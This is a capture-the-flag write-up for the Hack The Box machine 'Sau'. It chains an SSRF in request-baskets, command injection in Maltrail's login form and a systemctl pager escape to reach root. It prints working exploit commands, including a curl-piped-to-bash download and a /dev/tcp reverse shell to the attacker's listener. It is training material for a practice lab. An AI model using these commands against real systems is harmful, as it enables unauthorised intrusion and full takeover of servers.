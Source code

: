 ```yaml
---
title: "HTB • Sau"
tags:
  - "Beginner"
  - "Linux"
  - "Easy Difficulty"
  - "Web"
  - "CVE"
  - "SSRF"
  - "Sudo"
excerpt: "Sau is an easy machine on Hack The Box that involves web exploitation, Server Side Request Forgery (SSRF), Common Vulnerabilities and Exposures (CVEs), and Sudo policy exploitation."
categories:
  - "Writeups"
  - "Hack the Box Machines"
img_path: "/assets/img/post/htb-machines-sau/"
---
```


<!--
TODO:
[X] Rough draft
[X] Tags
[X] Summary
[X] Excerpt
[ ] Final Draft
-->

Sau is an easy Linux-based [**Hack the Box**](https://app.hackthebox.com/machines/Sau) machine created by [**sau123**](https://app.hackthebox.com/users/201596) that involves web exploitation, Server Side Request Forgery (SSRF), Common Vulnerabilities and Exposures (CVEs), and Sudo policy exploitation. A port scan initially revealed an HTTP server vulnerable to an SSRF bug tracked as **CVE-2023-27163**. The vulnerability was exploited to contact an internal HTTP server running an outdated version of Mailtrail prone to shell command injection, which we used to establish a reverse shell as _puma_. The sudo policy for this user allowed us to exploit **CVE-2023-26604** and gain execution as root.

## Initial Recon

We began by conducting a full TCP port scan using a tuned nmap command. This command quickly and reliably scans for any relevant TCP ports on the target.

~~~zsh
# Run a thorough port scan
nmap "10.10.11.224" -vv -Pn -sT -sV -n -p- -T4 --min-rate=1000 --max-retries=3
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}

The scan reported two open ports and two filtered ports:

| State    | Transport | Port  | Protocol | Product | Version                 |
|:---------|:----------|:------|:---------|:--------|-------------------------|
| Open     | TCP       | 22    | SSH      | OpenSSH | 8.2p1 Ubuntu 4ubuntu0.7 |
| Filtered | TCP       | 80    |          |         |  |
| Filtered | TCP       | 8338  |          |         |  |
| Open     | TCP       | 55555 | HTTP     |         |  |


## Web

We first navigated to <http://10.10.11.224:55555> which prompted a redirection to [/web](http://10.10.11.224:55555/web). On this page we noticed a footer indicating that the site was powered by **[request-baskets](https://github.com/darklynx/request-baskets) version 1.2.1**.

![Website on port 55555](web-baskets.png)
![Website version fingerprint](web-baskets-fingerprint.png)

We searched for CVEs affecting this installation and found an SSRF bug, **CVE-2023-27163**. The [CVEDetails page](https://www.cvedetails.com/cve/CVE-2023-27163/) for this bug provided a vulnerability description along with a link to additional exploitation details.

> request-baskets up to v1.2.1 was discovered to contain a Server-Side Request Forgery (SSRF) via the component /api/baskets/{name}. This vulnerability allows attackers to access network resources and sensitive information via a crafted API request.


### CVE-2023-27163

According to the brief [proof-of-concept](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3) referenced on the dedicated CVEDetails page, a special HTTP POST request should be made to `/api/baskets/*`{:.filepath} to create a new basket and set a forwarding URL. A simple shell script was made to streamline this process.

~~~zsh
#!/usr/bin/env zsh
[ $# -lt 1 ] && echo 'Usage: ./ssrf-curl <URL> [OPTS ...]' && exit 1

echo '{"proxy_response":true,"expand_path":true}' |
  jq -c --arg a "$1" '.forward_url=$a' |
  read json

basket=$(openssl rand -hex 8)
curl -so /dev/null -d "$json" "http://10.10.11.224:55555/api/baskets/${basket}"
curl -s "http://10.10.11.224:55555/${basket}" ${@:2}
~~~
{:file="ssrf.zsh"}


### Mailtrail

We used this script to indirectly access the HTTP server on port 80, since it cannot be accessed directly. A simple HTTP GET request was sent to verify the existence of the HTTP server and collect information.

~~~zsh
# Test SSRF script
zsh ssrf.zsh http://localhost:80 -i | more
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}

~~~http
HTTP/1.1 200 OK
Cache-Control: no-cache
Connection: close
Content-Security-Policy: default-src 'self'; style-src 'self' 'unsafe-inline'; img-src * blob:; script-src 'self' 'unsafe-eval' https://stat.ripe.net; frame-src *; object-src 'none'; block-all-mixed-content;
Content-Type: text/html
Date: Thu, 28 Dec 2023 08:44:05 GMT
Last-Modified: Tue, 31 Jan 2023 18:18:07 GMT
Server: Maltrail/0.53
Transfer-Encoding: chunked

<!DOCTYPE html>
...
~~~
{:file="bryan@redteam ➤ zsh • STDOUT" .nolineno}

A software fingerprint was found in the HTTP "Server" header with the value "Maltrail/0.53". We searched the web for vulnerabilities affecting this version and found an OS command injection flaw [disclosed here](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/).

> ##### Description
> Maltrail <= v0.54 is vulnerable to unauthenticated OS command injection during the login process.**
> ##### Summary
> [...] An attacker can exploit this vulnerability by injecting arbitrary OS commands into the username parameter. The injected commands will be executed with the privileges of the running process. This vulnerability can be exploited remotely without authentication.
> ##### Proof of Concept
> ``curl 'http://hostname:8338/login' --data 'username=;`id > /tmp/bbq`'``

It looks like the installed version can be exploited through the _username_ parameter on the login endpoint at <http://localhost/login>, which can be accessed with the SSRF script. We started a [PwnCat](https://pypi.org/project/pwncat-cs/) listener and proceeded to execute a simple bash reverse shell downloaded over HTTP.

~~~zsh
# Start PwnCat listener
lhost="10.10.14.2" # Change to your assigned VPN IP address
pwncat-cs -l $lhost 8443 # Install: `python3 -m pip install pwncat-cs`

# [In another session] Serve reverse shell over HTTP
lhost="10.10.14.2" # Change to your assigned VPN IP address
mkdir ./http-share && echo "bash -i >& /dev/tcp/${lhost}/8443 <&1" > http-share/index.html
http-server ./http-share -p 8080 -a $lhost # Install: `npm install -g http-server`

# [In another session] Trigger command execution
lhost="10.10.14.2" # Change to your assigned VPN IP address
zsh ssrf.zsh http://localhost:80/login -i -d "username=\`curl ${lhost}:8080|bash\`"
~~~
{:file="bryan@redteam • zsh" .nolineno}


## Privilege Escalation

With execution as the user _puma_, We found a custom sudo policy that allows us to execute a particular command as any user without the password for _puma_.

~~~bash
# Display sudo policy
sudo -l
~~~
{:file="bryan@redteam ➤ pwncat-cs ➤ puma@sau ➤ bash" .nolineno}

~~~text
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
~~~
{:file="bryan@redteam ➤ pwncat-cs ➤ puma@sau ➤ bash • STDOUT" .nolineno}

### CVE-2023-26604

The command we can run in a privileged context is `/usr/bin/systemctl status trail.service`. After searching the web for known vulnerabilities in systemd/systemctl, a fairly recent privilege escalation CVE tracked as [CVE-2023-26604](https://www.cvedetails.com/cve/CVE-2023-26604/) was found.

> systemd before 247 does not adequately block local privilege escalation for some Sudo configurations, e.g., plausible sudoers files in which the "systemctl status" command may be executed. Specifically, systemd does not set LESSSECURE to 1, and thus other programs may be launched from the less program. This presents a substantial security risk when running systemctl from Sudo, because less executes as root when the terminal size is too small to show the complete systemctl output.

We checked the systemd version and noticed that the vulnerable version **systemd 245** was installed.

~~~bash
# Check if systemd version is vulnerable
/usr/bin/systemctl --version
~~~
{:file="bryan@redteam ➤ pwncat-cs ➤ puma@sau ➤ bash" .nolineno}

~~~text
systemd 245 (245.4-4ubuntu3.22)
+PAM +AUDIT +SELINUX +IMA +APPARMOR +SMACK +SYSVINIT +UTMP +LIBCRYPTSETUP +GCRYPT +GNUTLS +ACL +XZ +LZ4 +SECCOMP +BLKID +ELFUTILS +KMOD +IDN2 -IDN +PCRE2 default-hierarchy=hybrid
~~~
{:file="bryan@redteam ➤ pwncat-cs ➤ puma@sau ➤ bash • STDOUT" .nolineno}


#### Exploitation

To exploit CVE-2023-26604, the terminal height was lowered as described in the CVE description, and the allowed sudo command was executed. From the pager we simply entered `!sh` to spawn a root shell.

~~~bash
# execute systemctl with lower resolution to spawn pager
stty rows 1 && sudo systemctl status trail.service
~~~
{:file="bryan@redteam ➤ pwncat-cs ➤ puma@sau ➤ bash" .nolineno}

![Privilege escalation demo](privesc.gif)
_Exploitation of CVE-2023-26604_
